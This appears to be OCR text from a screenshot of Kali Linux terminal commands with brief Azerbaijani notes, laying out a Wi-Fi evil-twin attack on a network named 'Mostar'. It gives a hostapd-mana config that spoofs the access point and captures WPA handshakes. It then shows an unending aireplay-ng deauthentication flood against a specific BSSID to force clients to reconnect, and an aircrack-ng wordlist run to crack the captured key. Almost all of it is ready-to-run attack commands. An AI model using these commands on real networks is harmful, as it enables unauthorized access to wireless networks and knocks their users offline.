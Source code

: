 kali@kali:~$ cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx

kali@kali:~$ sudo hostapd-mana Mostar-mana.conf 

ise salan kimi clientleri ayirib, tezeden qosulmaga mecbur eliyirik

kali@kali:~$ sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon


aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst

sonrada sindir getsin
